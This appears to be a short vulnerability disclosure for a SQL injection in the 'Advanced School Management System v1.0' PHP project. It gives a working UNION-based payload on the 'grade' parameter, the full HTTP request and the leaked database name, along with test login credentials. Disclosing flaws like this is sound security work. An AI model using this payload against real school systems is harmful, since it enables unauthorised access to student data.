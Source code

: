 # Advanced School Management System v1.0 by itsourcecode.com has SQL injection

**Login account:** 

​		username：suarez081119@gmail.com

​		password：12345

**vendors:** https://itsourcecode.com/free-projects/php-project/advanced-school-management-system-in-php-with-source-code/

**Vulnerability url:** /school/view/student_grade_wise.php?grade=

**Vulnerability location:** /school/view/student_grade_wise.php

**[+] Payload:** /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23

​	Leak place : grade

**Current database name:** std_db, length is 6

**Request package**：select all students whose grade is specified

```
GET /school/view/student_grade_wise.php?grade=11'%20union%20select%20database()%2c2%2c3%3b%23 HTTP/1.1
Host: 10.12.171.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: */*
Referer: http://10.12.171.4/school/view/all_student.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=cp26rmntdlbhle8qiofns95sv7
Connection: close
```

**SQL injection result**：line 6 database name is displayed.

![sql_injection](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/advanced-school-management-system/images/sql_injection.png)